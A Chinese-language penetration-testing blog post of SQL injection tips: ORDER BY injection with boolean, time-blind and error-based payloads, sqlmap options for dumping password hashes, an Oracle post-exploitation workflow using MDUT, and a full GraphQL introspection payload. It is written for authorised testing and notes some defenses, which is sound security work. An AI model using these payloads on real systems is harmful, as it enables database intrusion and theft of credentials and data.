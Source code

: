 ```yaml
---
title: "SQL注入在实战中的Tips合集"
slug: "sqli-tricks-in-pentest"
description: "已经...要....变成脚本小子的模样了!!!"
date: 2023-07-08T21:22:07+08:00
categories: ["NOTES&SUMMARY"]
series: []
tags: ["PENTEST", "SQLi"]
draft: false
toc: true
---
```


从实战中总结的一些小技巧，希望能帮助到一些人www

----

## order by注入

老生常谈，参数中出现可能为字段或表名、或出现排序有关的（比如desc, asc）就会被怀疑是sql注入点，但不是所有这种“疑似能注入”的地方都能被注——或者说重点关注什么样的字段是有说法的，这一点结合sql注入防御会更好理解

以php为例，php.ini可以设置`magic_quotes_gpc=on`开启对引号的转义，mysql中设`secure_file_priv=null`，代码中使用PDO预编译并设置

![image-20230705224758318](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230705224758318.png)

以上三项如果设置有误同样会导致报错注入的产生

java中的防御步骤类似，除了叠waf以外 也无非是转义/预编译、黑/白名单、设权限三板斧，后两者先不论， **mybatis**在对参数进行预处理时是不可以对order by后的参数使用`#{}`的，而是只可以使用`${}`！原因时order by语句后的字段名或字段位置是不可以加引号的，而使用预编译则一定会带`'`，导致可能出现的注入（普通预编译也会这样）；而**Hibernate**相对来说可以避免这一问题

而order by注入本身由于语义的原因 是不能直接使用`and 1=1`来判断的，需要用到条件语句做嵌套，举例：

```sql
select * from admin order by if(1=1,username,password);	# example
select * from admin order by if((substr((select user()),1,1)='r'),username,password);
```

时间盲注也不能简单使用`sleep()`，因为会对查询的每条内容执行排序 可能会造成ddos，需要用到子查询

```sql
select * from admin order by if((substr((select user()),1,1)='r'),sleep(5),password);	# may ddos
select * from admin order by if((substr((select user()),1,1)='r'),(select 1 from (select sleep(2)) as b),password);
```

报错

```sql
select * from admin order by (extractvalue(1,concat(0x3a,version())),1);
```

## sqlmap实用参数

官方文档：https://github.com/sqlmapproject/sqlmap/wiki/Usage

- `-p "<param>"`：指定注入参数，如遇POST+json类型的请求包（或需要自定义注入位置） 在要注入的位置加`*`
- `-U "CU" --passwords`：爆破当前用户的密码hash，`--passwords`爆所有用户hash
- `--csrf-token="<csrf name>"`：指定页面隐藏的csrf-token参数，可通过`--csrf-url="<url>"`指定token来源的地址，还可以通过`--eval`配合处理多个参数（效果拔群）
- `--gui`：启动自带GUI界面，包含各种参数的使用说明

![image-20230705174602794](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230705174602794.png)

- sqlmap根目录下自带一个`sqlmapapi.py` 封装了一些接口，可以通过这些接口发起扫描（不常见也不常用，但应该对造轮子有帮助

![image-20230705174431111](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230705174431111.png)

## sqlmap坑点

- `--batch`在windows和linux上表现不同
- 如果不是`-r`指定请求包，请注意sqlmap发包是否会导致相应包全是302，如果出现这种情况 建议指定部分请求头
- 小概率出现：别人电脑上能跑出来注入 但你不行的玄学情况，偶发性bug 暂未找到原因

## Oracle注入及后续利用

单独把Oracle数据库拿出来说的原因是sqlmap并不支持对它执行`--os-cmd`或`--os-shell`，所以与mysql, mssql相比稍有区别

1. 收集信息，库名、表名一把梭，列列重要数据 ~~（刷分用~~

2. 查当前用户的密码hash并尝试爆明文

```
--is-dba				# 是否dba
-U "CU" --passwords		# 当前用户密码
--passwords				# 所有用户密码
```

3. 用sql-shell查当前SID和当前ip，尝试外连

```
select instance_name from v$instance
select sys_context('userenv','ip_address') from dual
```

4. 如果可以外连，用 [Multiple Database Utilization Tools](https://github.com/SafeGroceryStore/MDUT)做后续利用

*此处举例用户名为sys（是dba），用户名这里需要改为`sys as sysdba`才能正确连接！

![image-20230705180830895](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230705180830895.png)

MDUT自带了HTTP隧道功能，还有常见的提权一把梭+列系统文件

5. *如果不能外连但为高权限用户，尝试执行java代码反弹（待补充）

6. Navicat或DBeaver查看数据库内具体内容；Navicat可以使用对应的隧道

## GraphQL注入

graphql有比较特殊的语法和查询方式，是便于前后端交互的语言 而不是便于后端和数据库交互的语言，后端数据都以graph 图的结构进行保存，需要设置好清晰的访问控制 不然就会被一锅端——graph的内省特性允许我们枚举数据库类型信息（见下）

graphql本身就很少见 在实战环境中更是少中又少，但我之前hvv还真见过这种站点，怎么发现端点的不太记得清了（不是dirsearch就是burpsuite扒请求记录），这里简单记录一下实操过程：

```
https://example.com/graphql?query=xxxxx
```

存在这样的可访问端点，直接用内省的payload枚举数据库结构信息

```
/graphql?query=fragment+FullType+on+__Type+{++kind++name++description++fields(includeDeprecated%3a+true)+{++++name++++description++++args+{++++++...InputValue++++}++++type+{++++++...TypeRef++++}++++isDeprecated++++deprecationReason++}++inputFields+{++++...InputValue++}++interfaces+{++++...TypeRef++}++enumValues(includeDeprecated%3a+true)+{++++name++++description++++isDeprecated++++deprecationReason++}++possibleTypes+{++++...TypeRef++}}fragment+InputValue+on+__InputValue+{++name++description++type+{++++...TypeRef++}++defaultValue}fragment+TypeRef+on+__Type+{++kind++name++ofType+{++++kind++++name++++ofType+{++++++kind++++++name++++++ofType+{++++++++kind++++++++name++++++++ofType+{++++++++++kind++++++++++name++++++++++ofType+{++++++++++++kind++++++++++++name++++++++++++ofType+{++++++++++++++kind++++++++++++++name++++++++++++++ofType+{++++++++++++++++kind++++++++++++++++name++++++++++++++}++++++++++++}++++++++++}++++++++}++++++}++++}++}}query+IntrospectionQuery+{++__schema+{++++queryType+{++++++name++++}++++mutationType+{++++++name++++}++++types+{++++++...FullType++++}++++directives+{++++++name++++++description++++++locations++++++args+{++++++++...InputValue++++++}++++}++}}
```

再使用https://graphql-kit.com/graphql-voyager/进行图的生成

![image-20230707152257406](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230707152257406.png)

![image-20230707150342238](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230707150342238.png)

通过可视化的结构构造查询数据的payload，构造方式参见 [官方文档](https://graphql.cn/learn/queries/)或 [这个仓库](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection)

![image-20230707150640501](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230707150640501.png)

拿到敏感数据就可以轻松愉快的写报告了，几百分轻松get~

当然了，如果站点做了详细的鉴权 那么所有的查询都是需要token的，没有token的我们只能到此为止了QAQ

![image-20230707150842841](https://amiz-1307622586.cos.ap-chongqing.myqcloud.com/images/image-20230707150842841.png)
